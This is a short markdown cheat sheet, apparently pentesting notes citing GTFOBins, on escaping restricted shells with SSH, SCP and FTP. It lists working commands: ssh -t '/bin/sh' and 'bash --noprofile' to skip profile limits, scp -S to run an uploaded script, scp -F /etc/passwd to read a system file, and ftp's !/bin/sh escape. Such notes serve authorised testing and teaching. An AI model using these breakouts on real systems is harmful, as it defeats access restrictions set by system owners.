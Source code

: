 # Remote Clients

## 01 - OpenSSH

### 1.1 - SSH

SSH on your machine to execute commands before the shell is loaded.

```
$ ssh [-p <PORT>] <username>@<IP> -t "/bin/sh"
```

Start the shell without loading "rc" profile (where most limits are configured):

```
$ ssh [-p <PORT>] <username>@<IP> -t "bash --noprofile"
```

Try to execute other commands.

```
$ ssh [-p <PORT>] <username>@<IP> <commands>
```

### 1.2 - SCP

SCP: On a box that you control make a simple wrapper script, then upload it:

```
$ cat /tmp/id.sh
#!/bin/sh
/usr/bin/id

$ chmod +x /tmp/id.sh

$ scp /tmp/id.sh untrusted@demobox:
```

Once the file is uploaded, run it with scp:

```
untrusted@demobox ~ $ scp -S /home/untrusted/id.sh x y:
uid=1008(untrusted) gid=1014(untrusted) groups=1014(untrusted)
```

SCP: This options can be used to `cat` certain types of file:

```
$ scp -F /etc/passwd x y:
```

works best in a wrapper

```
$ scp -S /tmp/getMeOut.sh x y:
```

## 02 - FTP

```
$ ftp
ftp> !/bin/sh

ftp> !/bin/bash
```

---
## References

- [GTFOBins: SSH](https://gtfobins.github.io/gtfobins/ssh/)